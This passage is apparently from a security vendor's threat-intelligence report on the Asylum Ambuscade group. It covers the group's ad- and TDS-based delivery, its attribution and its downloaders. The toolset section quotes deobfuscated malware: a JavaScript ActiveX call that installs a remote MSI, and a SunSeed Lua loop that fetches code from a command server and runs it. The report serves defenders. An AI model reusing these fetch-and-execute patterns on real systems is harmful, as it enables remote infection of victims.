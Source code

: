 A malicious Google Ad redirecting to a website delivering a malicious JavaScript file (as highlighted in this SANS blogpost)
Multiple HTTP redirections in a Traffic Direction System (TDS). The TDS used by the group is referred to as 404 TDS by Proofpoint. It is not exclusive to Asylum Ambuscade and we observed it was, for example, used by another threat actor to deliver Qbot. An example of a redirection chain, captured by io, is shown in Figure 3.

Figure 3. 404 TDS redirection chain, as captured by urlscan.io – numbers indicate the redirections in sequence
In addition to the different compromise vector, the group developed SunSeed equivalents in other scripting languages such as Tcl and VBS. In March 2023, it developed an AHKBOT equivalent in Node.js that we named NODEBOT. We believe those changes were intended to bypass detections from security products. An overview of the compromise chain is provided in Figure 4.
Figure 4. Compromise chain
Attribution
We believe that the cyberespionage and cybercrime campaigns are operated by the same group.

The compromise chains are almost identical in all campaigns. In particular, SunSeed and AHKBOT have been widely used for both cybercrime and cyberespionage.
We don’t believe that SunSeed and AHKBOT are sold on the underground market. These tools are not very sophisticated in comparison to other crimeware tools for sale, the number of victims is quite low were it a toolset shared among multiple groups, and the network infrastructure is consistent across campaigns.

As such, we believe that Asylum Ambuscade is a cybercrime group that is doing some cyberespionage on the side.
We also believe that these three articles describe incidents related to the group:

A TrendMicro article from 2020: Credential Stealer Targets US, Canadian Bank Customers
A Proofpoint article from 2022: Asylum Ambuscade: State Actor Uses Lua-based Sunseed Malware to Target European Governments and Refugee Movement
A Proofpoint article from 2023: Screentime: Sometimes It Feels Like Somebody's Watching Me

Toolset
Malicious JavaScript files
In most crimeware campaigns run by the group, the compromise vector is not a malicious document, but a JavaScript file downloaded from the previously documented TDS. Note that it has to be manually executed by the victim, so the attackers are trying to entice people into clicking on the files by using filenames such as Document_12_dec-1532825.js, TeamViewer_Setup.js, or AnyDeskInstall.js.
Those scripts are obfuscated using random variable names and junk code, most likely intended to bypass detections. An example is provided in Figure 5.
Figure 5. Obfuscated JavaScript downloader
Once deobfuscated, this script can be summarized in two lines:
var obj = new ActiveXObject("windowsinstaller.installer");
obj.InstallProduct("https://namesilo.my[.]id/css/ke.msi");
First-stage downloaders
The first stage downloaders are dropped by an MSI package downloaded by either a malicious document or a JavaScript file. There are three versions of this downloader:

Lua (SunSeed)
Tcl
VBS

SunSeed is a downloader written in the Lua language and heavily obfuscated, as shown in Figure 6.
Figure 6. The SunSeed Lua variant is heavily obfuscated
Once manually deobfuscated, the main function of the script looks like this:
require('socket.http')
serial_number = Drive.Item('C').SerialNumber
server_response = socket.request(http://84.32.188[.]96/ + serial_number)
pcall(loadstring(server_response))
collectgarbage()
<jump to the start and retry>
 